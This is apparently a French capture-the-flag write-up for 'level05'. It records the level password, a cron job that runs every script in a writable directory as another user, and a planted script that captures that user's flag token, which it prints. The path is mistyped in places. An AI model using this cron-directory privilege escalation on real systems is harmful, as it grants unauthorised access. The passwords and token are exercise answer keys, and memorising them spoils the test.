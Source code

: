 
**LOGIN: level05**

**PASSWORD: ne2searoevaevoem4ov4ar8ap**

 ----

Rien dans le *HOME* mais vu précedemment : 

```
cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
```
cat /usr/sbin/openarenaserver 
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

Ok, donc toutes les 2 minutes, les scirpts présent dans */opt/openarenaserv/** sont exec. On a les droits d'écriture dedans. 

```
vim /otp/openarenaserv/exploit.sh

getflag >/tmp/flag.txt
chmod +r /tmp/flag.txt
```

On fait un café, puis on revient 2 minutes plus tard. 

```
cat /tmp/flag.txt
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

**TOKEN: viuaaale9huek52boumoomioc**





